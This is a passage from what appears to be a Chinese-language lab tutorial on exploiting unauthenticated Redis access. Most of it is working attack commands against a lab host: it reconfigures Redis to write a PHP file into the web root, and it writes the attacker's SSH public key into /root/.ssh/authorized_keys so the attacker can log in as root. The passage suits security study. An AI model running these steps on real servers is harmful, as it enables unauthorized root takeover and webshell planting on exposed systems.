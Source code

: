 **建议选择kali操作**

连接redis，使用config set,set,save等命令写入就可以了

```bash
redis-cli -h 192.168.237.140 -p 6379
config set dir /var/www/html
config set dbfilename 1.php
set shell "<?php phpinfo();?>"
save
```

![10](https://the0n3.top/medias/redis未授权访问控制漏洞/10.png)

### 写入ssh公钥

原理就是在数据库中插入一条数据，将本机的公钥作为value，(key值随意)，然后通过修改数据库的默认路径为/root/.ssh和默认的缓冲文件authorized.keys，把缓冲的数据保存在文件里，这样就可以在服务器端的/root/.ssh下生一个授权的key

生成一对key，全选默认即可:

```bash
ssh-keygen -t rsa
```

![14](https://the0n3.top/medias/redis未授权访问控制漏洞/14.png)

去ssh生成的目录下，将公钥导入key.txt文件（前后用\n\n换行，避免和Redis里其他缓存数据混合）


```bash
cd /home/ajay/.ssh/
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > key.txt
```

把key.txt文件内容写入目标主机的缓冲里

```bash
cat key.txt | redis-cli -h 192.168.237.140 -x set sshpub
```

连接目标主机的Redis，设置redis的备份路径为/root/.ssh和保存文件名authorized_keys

注意删除缓存里无关的键值对，避免写入公钥里影响登录

```bash
redis-cli -h 192.168.237.140 -p 6379
config set dir /root/.ssh
config set dbfilename authorized_keys
keys *
del shell
get sshpub
save
```

![15](https://the0n3.top/medias/redis未授权访问控制漏洞/15.png)

ssh登录
